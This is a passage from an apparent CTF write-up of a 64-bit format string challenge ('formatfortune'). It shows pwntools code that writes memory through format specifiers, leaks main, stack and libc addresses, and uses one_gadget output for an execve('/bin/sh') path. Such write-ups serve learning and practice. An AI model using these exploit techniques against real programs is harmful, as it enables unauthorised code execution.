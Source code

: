 ```py
    return modit((target >> 0) &0xffff , 8, where) + b'\n' + modit((target >> 16) &0xffff, 8, where + 2) + b'\n' + modit((target >> 32) &0xffff, 8, where + 4) + b'\n' + modit((target >> 48) &0xffff, 8, where + 6)
```

`modit` does the core modification, `get_val` is used to extract memory addresses, and `set8bytes` is just a convinient way to set a whole 8 byte (remember 64 bit) memory location (8 bytes is the size of pointers in 64 bit architectures).

After that, I use a fixed return pointer on the stack to leak the value of main (therefore telling me where every function and variable in the binary is). Similar techniques are used to find libc and the location of the return pointer in the stack. (ignore the somewhat misleading variable names, also I didn't need all these, but I didn't know that till later)
```py
r.sendline(b'%13$p')  
r.recvuntil(b'0x')  
leekmain = int(r.recvuntil(b'\n').strip(), 16)
exe.address = leekmain - exe.symbols['main']

r.sendline(b'%9$p')  
r.recvuntil(b'0x')  
leekrippos = int(r.recvuntil(b'\n').strip(), 16)  
rip = leekrippos + 8

r.sendline(b'%15$p')  
r.recvuntil(b'0x', timeout=2)  
print(aa:=r.recvuntil(b'\n',timeout=1))  
leeklibc = int(aa.strip(), 16)  
libc.address = leeklibc - (libc.symbols['__libc_start_main'] + 243) #+ 0x7f6db384ba40 - 0x7f6db3857710
```

After that, I used ROP techniques to set some registers, and `one_gadget` to find an exploit path (`one_gadget` uses a really fascinating set of techniques that I can't explain here to find one ROP path calling `system(/bin/sh)` or equivalent).

```sh
$ one_gadget libc.so.6
0xe6c7e execve("/bin/sh", r15, r12)  
constraints:  
  [r15] == NULL || r15 == NULL  
  [r12] == NULL || r12 == NULL  
  
0xe6c81 execve("/bin/sh", r15, rdx)  
constraints:  
  [r15] == NULL || r15 == NULL  
  [rdx] == NULL || rdx == NULL  
  
0xe6c84 execve("/bin/sh", rsi, rdx)  
constraints:  
  [rsi] == NULL || rsi == NULL  
  [rdx] == NULL || rdx == NULL  
```


[karmanyaahm@karmanyaahsArch]: ~/CTF/bca22/pwn/formatfortune>$